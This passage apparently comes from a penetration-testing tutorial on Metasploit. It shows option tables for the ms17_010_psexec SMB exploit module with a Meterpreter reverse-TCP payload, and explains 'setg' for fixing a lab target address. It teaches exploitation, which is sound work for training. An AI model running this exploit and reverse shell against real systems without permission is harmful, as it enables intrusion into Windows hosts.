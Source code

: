 ```shell-session
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

In addition, there is the option `setg`, which specifies options selected by us as permanent until the program is restarted. Therefore, if we are working on a particular target host, we can use this command to set the IP address once and not change it again until we change our focus to a different IP address.

**MSF - Permanent Target Specification**

&#x20; Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
```